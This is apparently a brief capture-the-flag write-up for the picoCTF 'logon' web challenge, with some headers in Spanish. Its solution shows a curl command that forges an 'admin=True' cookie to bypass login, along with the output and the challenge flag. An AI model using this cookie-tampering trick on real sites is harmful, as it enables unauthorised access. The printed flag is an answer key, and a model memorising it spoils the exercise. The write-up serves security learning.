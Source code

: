 ### logon
## Objetivo
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/15796/` ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796

## Hints
1. Hmm it doesn't seem to check anyone's password, except for Joe's?
## Datos de acceso al nivel
## Solución
```bash
alivz-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   3243      0 --:--:-- --:--:-- --:--:--  3239
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>
```
## Notas adicionales
## Referencias


